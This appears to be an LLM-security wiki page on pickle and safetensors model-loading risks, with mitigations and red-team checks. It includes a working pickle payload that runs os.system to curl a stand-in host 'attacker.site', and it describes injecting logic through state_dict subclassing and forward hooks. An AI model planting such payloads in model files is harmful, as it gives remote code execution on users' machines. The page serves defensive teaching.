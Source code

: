 # Pickle / Safetensor Payloads

## Pickle / Safetensor Payloads

Many ML ecosystems use serialization formats to save and load model weights. Unfortunately, some formats (notably **Python Pickle**) allow arbitrary code execution on load, making them **critical RCE vectors**.

Even newer formats like `safetensors` can be misused if loading mechanisms are improperly configured or wrappers invoke unsafe libraries.

***

### 🧨 Why This Matters

* PyTorch models downloaded via `from_pretrained()` often load pickled code
* Pickle executes constructors and import logic — can hide backdoors or shell payloads
* GitHub-released models with `.pt`, `.pkl`, `.ckpt` may include arbitrary classes
* `safetensors` solves deserialization safety but doesn't prevent backdoored **weights**

***

### ⚙️ Exploit Examples

#### Python Pickle Payload (injected model class)

```python
import pickle
pickle.loads(b"c__builtin__\neval\n(S'__import__(\"os\").system(\"curl attacker.site\")'\ntR.")
```

#### Torch `state_dict` hijack

* Replace `state_dict` with custom subclass or override internal keys
* Use hooks like `.register_forward_hook()` to inject logic on runtime

***

### 🧪 Red Teaming Tactics

* Scan public model hubs for `.pkl`, `.pt`, `.ckpt` not hosted by trusted orgs
* Use static analysis tools to inspect pickle bytecode
* Check model class source when loading via `from_pretrained()`
* Monitor network and file system activity during model loading

***

### 🛡️ Mitigation Strategies

| Control               | Description                                                   |
| --------------------- | ------------------------------------------------------------- |
| **Use `safetensors`** | Format that prevents arbitrary code on load                   |
| **Signed Models**     | Require model + hash manifest signed by publisher             |
| **Sandboxed Loading** | Isolate the load step from network or disk access             |
| **Audit Before Load** | Manually inspect model class definitions and loading wrappers |

***

### 🔗 Related Pages

* [Custom Layer Injection](https://cosimo.gitbook.io/llm-security/model-manipulation/model-backdoors/custom-layer-injection)
* [Unsafe Model Loading](https://cosimo.gitbook.io/llm-security/supply-chain-and-serialization-risks/unsafe-model-loading)
* [Embedding Space Backdoors](https://cosimo.gitbook.io/llm-security/evaluation-and-hardening/embedding-space-backdoors)

***

### 📚 Resources

* **PyTorch Docs.** [TorchScript Serialization & Pickle Warning](https://pytorch.org/docs/stable/jit.html#serialization)
* **HuggingFace.** [safetensors Format Guide](https://huggingface.co/docs/safetensors/index)
* **USENIX 2024.** [Practical LLM Supply Chain Attacks (Harang)](https://www.usenix.org/conference/usenixsecurity24/presentation/harang)
* **RedHat.** [Pickle RCE in ML Pipelines](https://access.redhat.com/security/cve/CVE-2020-14343)
